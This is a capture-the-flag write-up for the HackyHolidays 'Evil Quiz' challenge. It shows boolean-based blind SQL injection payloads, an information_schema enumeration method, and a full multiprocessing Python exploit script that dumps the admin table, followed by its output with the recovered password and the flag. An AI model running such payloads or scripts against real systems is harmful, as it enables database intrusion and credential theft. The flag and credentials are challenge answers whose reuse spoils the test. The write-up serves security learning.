

# Evil Quiz

**Challenge URL:** https://hackyholidays.h1ctf.com/evil-quiz

## Methodology

Upon launching the application, we are greeted with a `name` field which will be used when we take this evil quiz.

<p align="center">
  
  
</p>

> As usual, the admin login page was not vulnerable to SQL injection.

At the end of the quiz, we are shown our evil score, as well as our input `name`:

<p align="center">
  
</p>

Maybe the `name` field is somehow vulnerable..? Let me try a simple `sleep()` sub-query and see if it works:

```
' OR (SELECT SLEEP(10)); -- -
```

<p align="center">
  
  
</p>

Looks promising, but whatever time that I used in `sleep()`, it gave me `504 Gateway Time-out`. Maybe there's another way to perform SQL injection?

New payloads:
```py
# True payload
' AND (SELECT 1); -- -
```
<p align="center">
  
</p>

```py
# False payload
' AND (SELECT 0); -- -
```
<p align="center">
  
</p>

Notice anything different? Upon a `TRUE` statement, the output shows that there are `> 0 player(s)` but upon a `FALSE` statement, the output shows that there are `0 other player(s)`.

This confirms the existence of a **boolean-based blind SQL injection** vulnerability.

### Blind SQL Injection Vulnerability

In a typical blind SQL injection payload, we can only exfiltrate data from the server character by character. One common way to do this is to make use of the `substr()` function coupled with the `ascii()` function, both of which are SQL functions.

The idea is, if the current character that we are exfiltrating matches our "guess" character, then we will follow the `TRUE` statement. Otherwise, we will follow the `FALSE` statement. Since this is MySQL flavored database, we have to use `IF()` to do the [conditional checking](https://dev.mysql.com/doc/refman/8.0/en/flow-control-functions.html#function_if):

```sql
-- Assume that we want to exfiltrate the output of "SELECT VERSION();"
SELECT VERSION();

-- Obtaining 1 character, starting from the first character of the version string:
SUBSTR((SELECT VERSION()), 1, 1)

-- Converting this character to ASCII value:
ASCII(SUBSTR((SELECT VERSION()), 1, 1))

-- Comparing the ASCII value against "56", which is decimal value 8:
ASCII(SUBSTR((SELECT VERSION()), 1, 1))=56

-- Putting it together, SELECT 1 if the first character of the version string is "8" in decimal. Otherwise, SELECT 0 if it is not:
SELECT IF(ASCII(SUBSTR((SELECT VERSION()), 1, 1))=56, 1, 0)
```

#### Constraints
Even though the vulnerability was easily identified, some not so obvious constraints that were imposed by this challenge are:
1. One `name` is set per session cookie, this means we have to start a new session on each attempt.
2. The final quiz score page can only be retrieved once the quiz has been "completed".

Thus, the sequence of requests must follow:
1. `GET /evil-quiz`
2. `POST /evil-quiz`, setting the `name` parameter as the injection payload
3. `GET /evil-quiz/start`
4. `POST /evil-quiz/start`, setting the 3 parameters `ques_1`, `ques_2` and `ques_3` as `0` (there are other valid values)
5. `GET /evil-quiz/score`, which contains output controlled by the injection payload

#### Practical Methodology
Since there is no knowledge of the database schema and its tables, querying the database must follow a certain format, since we should not make any unnecessary assumptions:
1. Obtain the `schema` name, which can be done by making use of the `information_schema.tables` [table](https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html):
    ```sql
    -- Assumes that there is only 1 user-created schema
    SELECT table_schema FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema' LIMIT 1;
    ```

2. Obtain the `table` name in the `schema` obtained in previous step, making use of the `information_schema.tables` [table](https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html) again:
    ```sql
    -- Assumes that there is only 1 user-created table, more can be discovered by appending OFFSET X where X is an integer
    SELECT table_name FROM information_schema.tables WHERE table_schema = 'SCHEMA_NAME' LIMIT 1;
    ```

3. Obtain the `columns` in the `schema.table`, first by obtaining the `COUNT()` and then enumerating one by one, making use of the `information_schema.columns` [table](https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html):
    ```sql
    -- Obtaining number of columns -> X
    SELECT COUNT(*) FROM information_schema.columns WHERE table_schema = 'SCHEMA_NAME' AND table_name = 'TABLE_NAME';

    -- Obtaining column names, iterating over X
    SELECT column_name FROM information_schema.columns WHERE table_schema = 'SCHEMA_NAME' AND table_name = 'TABLE_NAME' LIMIT 1 OFFSET X;
    ```

4. Obtain the rows in the `schema.table`, column-by-column using `columns`, this time by directly querying the `schema.table`:
    ```sql
    -- Obtaining row 1, iterating over X columns. More rows can be discovered by appending OFFSET X where X is an integer
    SELECT COLUMN FROM SCHEMA_NAME.TABLE_NAME LIMIT 1;
    ```

#### Blind SQLi Script

My exploit script is as thus:
```py
#
# Python 2 Blind SQL Injection Script w/ Multiprocessing
#
# Author: https://github.com/limerencee
# Created during: HackerOne HackyHolidays 2020 CTF
#
#
# Usage:
# In main(), decide if you want to run full_enum() or the speed_run()
# by commenting out either functions. Adjust the number of threads under
# POOL_WORKERS global variable (default 12).
#
# $ python evil-quiz-exploit.py
#

import requests
import sys
from multiprocessing import Pool

MAX_GUESS_LENGTH = 256
POOL_WORKERS = 12

output = []
pool = None

def get_result():
    global output
    result = None

    if len(output) > 0:
        result = "".join(output)
        output = []

    sys.stdout.write("\n")
    return str(result)

def log_result(result):
    global output

    if result:
        pool.terminate()

        if result in range(32, 127):
            char = chr(result)
            output.append(char)
            sys.stdout.write(char)
            sys.stdout.flush()
        else:
            length = str(result)
            output.append(length)

def multi_request(inj, c):
    # Init cookie
    s = requests.Session()
    s.get('https://hackyholidays.h1ctf.com/evil-quiz')

    # Set guess character
    data = {
        "name": inj.replace("[CHAR]", str(c))
    }

    # Send payload
    s.post('https://hackyholidays.h1ctf.com/evil-quiz', data=data)

    # Mandatory requests
    s.get('https://hackyholidays.h1ctf.com/evil-quiz/start')
    s.post('https://hackyholidays.h1ctf.com/evil-quiz/start', data={"ques_1": 0, "ques_2": 0, "ques_3": 0})

    res = s.get('https://hackyholidays.h1ctf.com/evil-quiz/score')
    if "is 0 other" not in res.text:
        return c
    return False

def inject(inj):
    global pool
    pool = Pool(POOL_WORKERS)

    for c in range(32,127):
        pool.apply_async(multi_request, [inj, c], callback=log_result)
    pool.close()
    pool.join()

def inject_len(query):
    global pool
    pool = Pool(POOL_WORKERS)

    for i in range(1, MAX_GUESS_LENGTH + 1):
        inj = "' AND (SELECT IF(LENGTH(({}))={}, 1, 0)); -- -".format(query, i)
        pool.apply_async(multi_request, [inj, i], callback=log_result)
    pool.close()
    pool.join()

def inject_count(query):
    global pool
    pool = Pool(POOL_WORKERS)

    for i in range(1, MAX_GUESS_LENGTH + 1):
        inj = "' AND (SELECT IF(({})={}, 1, 0)); -- -".format(query, i)
        pool.apply_async(multi_request, [inj, i], callback=log_result)
    pool.close()
    pool.join()

def sqli_query(query, length):
    for i in range(1, int(length) + 1):
        inj = "' AND (SELECT IF(ASCII(SUBSTR(({}),{},1))=[CHAR], 1, 0)); -- -".format(query, i)
        orig_output = len(output)
        inject(inj)
        updated_output = len(output)
        if orig_output == updated_output:
            break
    return get_result()

def sqli_len_query(query):
    if "COUNT(" in query:
        inject_count(query)
    else:
        inject_len(query)
    return get_result()

def full_enum():
    # Enumerate Schema Name
    query_schema = "SELECT table_schema FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema' LIMIT 1"
    schema_len = sqli_len_query(query_schema)
    print "[+] Schema Name Length: {}".format(schema_len)
    schema_name = sqli_query(query_schema, schema_len)
    print "[+] Schema Name: {}\n".format(schema_name)

    # Enumerate Table Name
    query_table_name = "SELECT table_name FROM information_schema.tables WHERE table_schema = '{}' LIMIT 1".format(schema_name)
    table_name_len = sqli_len_query(query_table_name)
    print "[+] Table Name Length: {}".format(table_name_len)
    table_name = sqli_query(query_table_name, table_name_len)
    print "[+] Table Name: {}\n".format(table_name)

    # Enumerate Columns
    # Get number of columns
    query_table_columns_len = "SELECT COUNT(*) FROM information_schema.columns WHERE table_schema = '{}' AND table_name = '{}'".format(schema_name, table_name)
    col_count = sqli_len_query(query_table_columns_len)
    print "[+] Number of Columns: {}".format(col_count)

    # Enumerate all column names
    columns = []
    for i in range(0, int(col_count)):
        print "[+] Column #{}".format(i+1)
        query_table_columns = "SELECT column_name FROM information_schema.columns WHERE table_schema = '{}' AND table_name = '{}' LIMIT 1 OFFSET {}".format(schema_name, table_name, i)
        col_len = sqli_len_query(query_table_columns)
        print "[+] Column Name Length: {}".format(col_len)
        col_name = sqli_query(query_table_columns, col_len)
        print "[+] Column Name: {}\n".format(col_name)
        columns.append(col_name)

    # Exfiltrate row
    print "[+] Enumerating Row from '{}.{}'...".format(schema_name, table_name)
    for column in columns:
        query_table_content = "SELECT {} FROM {}.{} LIMIT 1".format(column, schema_name, table_name)
        row_len = sqli_len_query(query_table_content)
        print "[+] '{}' Length: {}".format(column, row_len)
        row_value = sqli_query(query_table_content, row_len)
        print "[+] {}: {}\n".format(column, row_value)

def speed_run():
    query_username = "SELECT username FROM quiz.admin LIMIT 1"
    username_len = sqli_len_query(query_username)
    print "[+] 'username' Length: {}".format(username_len)
    username = sqli_query(query_username, username_len)
    print "[+] 'username': {}\n".format(username)

    query_password = "SELECT password FROM quiz.admin WHERE username = '{}'".format(username)
    password_len = sqli_len_query(query_password)
    print "[+] 'password' Length: {}".format(password_len)
    password = sqli_query(query_password, password_len)
    print "[+] 'password': {}\n".format(password)

def main():
    full_enum()
    # speed_run()

if __name__ == "__main__":
    main()
```

This was the output obtained upon using the script that I created:
```bash
[+] Schema Name Length: 4
quiz
[+] Schema Name: quiz


[+] Table Name Length: 5
admin
[+] Table Name: admin


[+] Number of Columns: 3

[+] Column #1
[+] Column Name Length: 2
id
[+] Column Name: id

[+] Column #2
[+] Column Name Length: 8
username
[+] Column Name: username

[+] Column #3
[+] Column Name Length: 8
password
[+] Column Name: password

[+] Enumerating Row from 'quiz.admin'...

[+] 'id' Length: 1
1
[+] id: 1

[+] 'username' Length: 5
admin
[+] username: admin

[+] 'password' Length: 17
S3creT_p4ssw0rd-$
[+] password: S3creT_p4ssw0rd-$
```

With the credentials `admin:S3creT_p4ssw0rd-$` obtained, it was time to login to the admin page:

<p align="center">
  
</p>

**Flag:** `flag{6e8a2df4-5b14-400f-a85a-08a260b59135}`


## Thoughts 💉
This challenge was my favourite thus far, as it reminded me to enumerate the database properly (i.e. schema and tables). Also, the solution path was straightforward 😄. Usually in blind SQLi, I only had to find out the table name and the column names. It was my first time needing to find out the schema as well, although it was trivial to realize and obtain.

I wanted to challenge myself and revise my blind SQL scripting skills, so I chose not to use `sqlmap`, which others may have reported to have success with.
